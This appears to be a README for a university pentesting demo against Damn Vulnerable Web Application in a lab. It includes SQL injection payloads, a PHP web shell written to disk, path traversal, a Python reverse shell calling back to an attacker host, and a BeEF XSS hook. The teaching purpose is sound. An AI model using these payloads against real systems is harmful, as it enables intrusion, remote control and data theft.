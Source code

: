 # Abakus Security Demo

[Presentation slides](https://docs.google.com/presentation/d/1gW_8E_jsF_oDMjmKVYkI13REUKjg_uInGTV_RXsxoQ8/edit?usp=sharing)
This is a simple security / pentesting demo run for Abakus at NTNU in Trondheim.
There are two hosts used in this demo:
```
Victim (Ubuntu 16.04): 192.168.56.101
Attacker (Kali Linux): 192.168.56.102
```
To adopt this demo, simply change those IPs in the examples.

## Disclaimer

DO NOT use the techniques shown here towards live targets on the internet, your friends, or school resources.
Doing so is most likely against the law and is simply not cool, always ask for explicit permission before attempting any form of pentesting! 

# Setup victim machine

This was done on a Ubuntu 16.04 server.

## Install Docker

```
$ sudo apt-get update && apt-get install docker.io
$ sudo systemctl start docker
```

## Setup Damn Vulnerable Web Application (DVWA)

Pull the image from DockerHub:
```
$ sudo docker pull citizenstig/dvwa
```

Fire up the container:
```
$ sudo docker run -d -p 80:80 citizenstig/dvwa:latest
```

1. DVWA is now available at `http://192.168.56.101:80`
2. Follow the instructions to setup the MySQL database within the browser
3. Refresh and login, default username is `admin` and the default password is `password`

# Recon
## google hacking
Popular search operations
`site`, `filetype`, `inurl`, `intitle`

Database for URL queries for hacking: [Google Hacking DB](https://www.exploit-db.com/google-hacking-database/)

Find hardware with known vulnerabilities
`intitle:"SpeedStream Router Management Interface"`

Web accessible, Open Cisco Routers
`inurl:"level/15/exec/-/show"`

## TheHarvester
Installation instructions: https://github.com/laramies/theHarvester

Example command for assessing google
`theharvester -d telenordigital.com -l 500 -b all > telenor-digital.txt`


## Nmap

Scanning the Victim's machine through Nmap
`sudo nmap 192.168.56.102 -sV -sC -O`


# Finding vulnerabilities

## Cross Site Scripting (XSS)

1. Go to `http://192.168.56.101/security.php` and set security level to low.
2. Go to `http://192.168.56.101/vulnerabilities/xss_r/`. Explore the functionality.
3. Reflect on the source code by clicking "View Source" in the bottom right.
4. Play around with some input, does the application reflect `<`, `'`, `"`?
5. Can you put actual HTML tags in there, like `<pre>`, `<a>`?
6. Attempt to use the classic `<script>alert(1)</script>` to check for XSS.
7. Show the same with the persistant/stored XSS at `http://192.168.56.101/vulnerabilities/xss_s/`

## SQL Injection (SQLi)

1. Go to `http://192.168.56.101/security.php` and set security level to low.
2. Go to `http://192.168.56.101/vulnerabilities/sqli/` and explore the functionality
3. View the source by clicking "View Source" in the bottom right.
4. Input a single quote `'` into the input field.
	+ Makes query: `"SELECT first_name, last_name FROM users WHERE user_id = '''";`
5. Input `1' OR 1=1;#` into the input field. 
	+ Makes query: `"SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1;#'";`
6. Demonstrate that arbitrary information can be received:
	+ `1' union select all 1,@@version;#`
	+ `1' union select all 1,table_name FROM information_schema.tables;#`
7. Show that files can be written as well:
	+ `1' union select all 1,"<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/tmp/backdoor.php';#`
8. Take advantage of it with path traversal vulnerability:
	+ `http://192.168.56.101/vulnerabilities/fi/?page=../../../../../tmp/backdoor.php&cmd=id`
9. Run `sqlmap -u "http://192.168.56.101/vulnerabilities/sqli/?id=123&Submit=Submit#"`.
10. Fetch cookie values from CookieManager+
11. Run `sqlmap -u "http://192.168.56.101/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=[SESSION FROM COOKIES]"`
12. Run `sqlmap -u "http://192.168.56.101/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=[SESSION FROM COOKIES]" --tables`

# Exploitation

## Reverse shell using SQLi
1. Want to take advantage of the SQLi and the path traversal vulnerability we found previously.
2. Reflect on why we'd want to use a reverse shell (victim -> attacker) instead of a regular shell (attacker -> victim).
3. Prepare to receive the shell by using a netcat listener on the attacker machine: `nc -l -p 5454`
4. Confirm that python is available on the victim: `http://192.168.56.101/vulnerabilities/fi/?page=../../../../../tmp/backdoor.php&cmd=which python`
5. We'll get the reverse shell using the following Python one-liner:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
6. Execute the reverse shell on the victim: 
```
http://192.168.56.101/vulnerabilities/fi/?page=../../../../../tmp/backdoor.php&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",5454));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
7. Shell, woo!

## BeEF Command and Control using XSS

1. Fire up BeEF in Kali:
```
root@kali:~# beef-xss
```
2. Open up the BeEF GUI at `http://192.168.56.101:3000/ui/panel` and login with the credentials beef:beef
3. Host a simple HTML page with the following content:
```
root@kali:/var/www/html# cat beef.html 
<html>
<head>
<script src="http://192.168.56.102:3000/hook.js"></script>
</head>
<body>
<h1>Welcome to my awesome page</h1>
<h2>Enjoy your stay!</h2>
</body>
```
4. Get hooked by going to the URI `http://192.168.56.101:3000/beef.html` in a browser of your choosing
5. Show some functionality by selecting `hoooked browser -> Commands -> Browser -> Hooked Domain -> Create Alert Dialog`

# Resources

## Kali Linux
https://www.kali.org/

## Vulnerable applications
1. Damn Vulnerable Web Application: http://www.dvwa.co.uk/
2. WebGoat: https://github.com/WebGoat/WebGoat
3. Mutillidae 2: https://www.owasp.org/index.php/OWASP_Mutillidae_2_Project

## Prevent vulnerabilities:
XSS: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

SQL injection: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet
